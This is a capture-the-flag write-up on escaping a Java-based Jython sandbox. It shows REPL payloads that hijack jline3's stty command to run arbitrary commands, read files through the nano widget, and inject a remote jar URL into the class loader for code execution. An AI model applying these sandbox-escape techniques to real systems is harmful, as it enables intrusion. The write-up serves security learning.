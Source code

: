 # pbctf2021 - Secure Jython Sandbox

## Introduction

> We've seen too many python sandboxes... why don't we give some love for Jython ;P?
>
> Here's a trimmed-down, secure[citation needed], totally noncompliant jython implementation that
> doesn't let you do a whole lot of stuff, with a little twist added to it!
>
> [deploy.tar.gz](deploy.tar.gz)

This challenge does not utilize [Jython](https://www.jython.org/), but contains a tiny (and really
cool) implementation of Java REPL. In addition to a subset of Python grammar, It supports C-like
reference/dereference as well (with operator `&` and `*`). Sadly, method invocations are
forbidden. All we can do is access (get and set) objects' fields and the goal is to escape the
sandbox.

## The magic of referencing

How can (de)referencing be used in Python or Java?

Although `import` is allowed, we can only access to `java.lang.reflect.Field` objects directly.

```
>>> import java.lang
>>> java.lang.System.lineSeparator
private static java.lang.String java.lang.System.lineSeparator
>>> java.lang.System.lineSeparator.value
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: 'java.lang.reflect.Field' object has no attribute 'value'
>>> "\n".value
array('b', [10])
```

With the help of the operator `&`, we can get an object of `jython.rts.ObjectTraitImpl$MemberRef`,
alter its' field, and dereference it to access more. For example, to get static
class fields:

```
>>> # Get java.lang.System.lineSeparator
>>> import java.lang
>>> v = &1.value
>>> v.self = java.lang.System
>>> v.member = java.lang.System.lineSeparator
>>> *v
'\n'
```

What's more, direct field ref is limited to declared and public ones by design. That is, private
and protected fields of parent classes cannot be accessed directly. Referencing may be leveraged
to bypass it:

```
>>> v = &1.value
>>> v.self = java.lang.Thread$State
>>> v.member = java.lang.Thread$State.NEW
>>> e = *v
>>> e.__class__
<class 'java.lang.Thread$State'>
>>> e.ordinal
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: 'java.lang.Thread$State' object has no attribute 'ordinal'
>>>
>>> # Get NEW.ordinal (a private field of java.lang.Enum)
>>> v.self = e
>>> v.member = java.lang.Enum.ordinal
>>> *v
0
```

This interesting "feature" seems to be a key point to solve the problem.

## Shortcut: arbitrary file read

After walking through the vendor library `jline3`, We found some useful gadgets for exploiting.
Soon we noted that the default Linux terminal implementation in `jline3` executes `stty` in every
`readline()` process. Once the command string is modified, it may help us to run arbitrary commands.
A PoC script does trigger `ls` command locally:

```
# with the default terminal ONLY
>>> import org.jline.utils
>>> a = &1.value
>>> a.self = org.jline.utils.OSUtils
>>> a.member = org.jline.utils.OSUtils.STTY_COMMAND
>>> *a = 'ls'
>>>
Exception in thread "main" java.io.IOError: java.io.IOException: Error executing 'ls min 0 time 1': ls: cannot access 'min': No such file or directory
ls: cannot access '0': No such file or directory
ls: cannot access 'time': No such file or directory
ls: cannot access '1': No such file or directory
...
```

However, this script does not work on the remote side. We compared the leading texts returned from
both sides and figured out that the remote environment ran `jython` without attaching to
a TTY. The remote environment can be simulated by running in the following way:

```
cat | ./jython
WARNING: Unable to create a system terminal, creating a dumb terminal (enable debug logging for more information)
Jython 2.8.999 (sandbox-standard v1.2)
[OpenJDK 64-Bit Server VM (N/A)] on java16.0.2
Type "help", "copyright", "credits" or "license" for more information.
>>>
```

The dumb terminal (`org.jline.terminal.impl.DumbTerminal`) doesn't execute commands at all.
Furthermore, some built-in Java implementations of common commands like `less` and `nano` are
eye-catching as well. We found a way to use `nano` for opening files like this:

```
# with the default terminal ONLY
import jython
import org

# Get jython.Repl.reader
reader = &1.value
reader.self = jython.Repl
reader.member = jython.Repl.reader
# Call the nano widget
(*reader).widgets["callback-init"] = (*reader).widgets["edit-and-execute-command"]
```

Once the nano widget shows, press `Ctrl + R`, enter the filename, and press `Enter` to get the file
content.

The above method doesn't work without a TTY as well. Although setting columns and rows for the
terminal eliminates exceptions raised after bringing up the widget, the last `Enter` key pressing
can't trigger in the dumb terminal via common key sequences. We looked into related code and found
that the key cause is that the line reader (`org.jline.reader.impl.LineReaderImpl`) checks if the
terminal is dumb and ignores CR when it is. Only CR maps into the `ACCEPT` command in nano.

```java
// reader/src/main/java/org/jline/reader/impl/LineReaderImpl.java:619
if (!dumb) {
  ...
} else {
    // For dumb terminals, we need to make sure that CR are ignored
    Attributes attr = new Attributes(originalAttributes);
    attr.setInputFlag(Attributes.InputFlag.IGNCR, true);
    terminal.setAttributes(attr);
}
```

By using the second technique in the last chapter, we can modify the protected field in
`AbstractTerminal` to bypass the dumb check. The final exploit goes like
[solve_file_read.py](solve_file_read.py). This (unintended) solution helped us (Water Paddler) to
get the flag during the competition.

## Towards arbitrary code execution

> theKidOfArcrania: basically you had to go into the builtin class loaders and add your own url to it

After the competition, I had more time to dig into Java internals and try to do this in the intended
way.

The first step is to get access to fields in all modules. The program starts to open the `java.lang`
package only to unnamed modules, which means that fields in other packages are not allowed to access
directly:

```
>>> [].size
java.lang.reflect.InaccessibleObjectException: Unable to make field private int java.util.ArrayList.size accessible: module java.base does not "opens java.util" to unnamed module @4690b489
        at java.base/java.lang.reflect.AccessibleObject.checkCanSetAccessible(AccessibleObject.java:357)
        at java.base/java.lang.reflect.AccessibleObject.checkCanSetAccessible(AccessibleObject.java:297)
        at java.base/java.lang.reflect.Field.checkCanSetAccessible(Field.java:177)
```

The accessible check can be bypassed easily through analyzing the checking logic: set
`module` field of class `jython.rts.ObjectTraitImpl$FieldRef` to `java.base`.

```
# open all packages
import java
f = &1.value
field_ref = f.__class__
mod = &1.value
mod.self = field_ref
mod.member = java.lang.Class.module

boot_layer = &1.value
boot_layer.self = java.lang.System
boot_layer.member = java.lang.System.bootLayer
module_base = (*boot_layer).nameToModule["java.base"]
*mod = module_base
```

However, even with all packages opened, some fields are not able to access since the Java runtime
filters sensitive methods and fields in reflection:

```java
// jdk/internal/reflect/Reflection.java:42

    /** Used to filter out fields and methods from certain classes from public
        view, where they are sensitive or they may contain VM-internal objects.
        These Maps are updated very rarely. Rather than synchronize on
        each access, we use copy-on-write */
    private static volatile Map<Class<?>, Set<String>> fieldFilterMap;
    private static volatile Map<Class<?>, Set<String>> methodFilterMap;
    private static final String WILDCARD = "*";
    public static final Set<String> ALL_MEMBERS = Set.of(WILDCARD);

    static {
        fieldFilterMap = Map.of(
            Reflection.class, ALL_MEMBERS,
            AccessibleObject.class, ALL_MEMBERS,
            Class.class, Set.of("classLoader", "classData"),
            ClassLoader.class, ALL_MEMBERS,
            Constructor.class, ALL_MEMBERS,
            Field.class, ALL_MEMBERS,
            Method.class, ALL_MEMBERS,
            Module.class, ALL_MEMBERS,
            System.class, Set.of("security")
        );
```

I spent quite a long time on how to handle it out but with no luck. Considering the hint released by
the author after the competition, I turned to dive into built-in class loading processes.

There are 3 built-in class loaders in `jdk.internal.loader.Loaders` and only the `APP_LOADER` has
capabilities for network class loading (via `jdk.internal.loader.URLClassPath`). For loading a new
class from remote, we need to inject a jar URL into the class path. The exploition process goes like
below:

1. Get the instance of `jdk.internal.loader.ClassLoaders$AppClassLoader` via
   `jdk.internal.loader.ClassLoaders.APP_LOADER`.
2. Extract `jdk.internal.loader.URLClassPath` from `jdk.internal.loader.BuiltinClassLoader.ucp`.
3. To simulate the process of `jdk.internal.loader.URLClasspath.addURL(url)`, append a `java.net.URL`
   object into `unopenedUrls`.
4. Trigger class loading via `import`.

For full details, please reference the script [solve.py](solve.py).
